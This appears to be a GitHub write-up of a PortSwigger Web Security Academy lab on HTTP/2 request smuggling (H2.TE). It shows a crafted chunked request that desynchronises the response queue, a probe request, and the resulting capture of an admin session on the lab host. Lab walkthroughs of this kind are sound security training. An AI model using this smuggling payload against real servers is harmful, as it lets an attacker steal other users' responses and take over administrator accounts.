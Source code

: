 Title: Response queue poisoning via H2.TE request smuggling
Level: PRACTITIONER
Desc: This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.
To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 15 seconds.
The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection. 

# Walkthrough:
Sending following request to desynchronise the queue:
```
POST / HTTP/2
Host: 0a5e004b04c2b2b780dd0383001a00ea.web-security-academy.net
Transfer-Encoding: chunked

0

GET /anything HTTP/1.1
Host: 0a5e004b04c2b2b780dd0383001a00ea.web-security-academy.net


```

And then sending request to probe: 
```
GET / HTTP/2
Host: 0a5e004b04c2b2b780dd0383001a00ea.web-security-academy.net
```
In response for probing request I get response dedicated for smuggled request.
<img width="1192" height="171" alt="image" src="https://github.com/user-attachments/assets/c631ed93-9ca3-4b45-a8ee-9dc01fab96ce" />

!`Remember to terminate the smuggled request properly by including the sequence \r\n\r\n after the Host header. `

<img width="1443" height="183" alt="image" src="https://github.com/user-attachments/assets/e706d60b-b5d5-4865-8eb5-f580aaf9a3a0" />

I got an admin account.

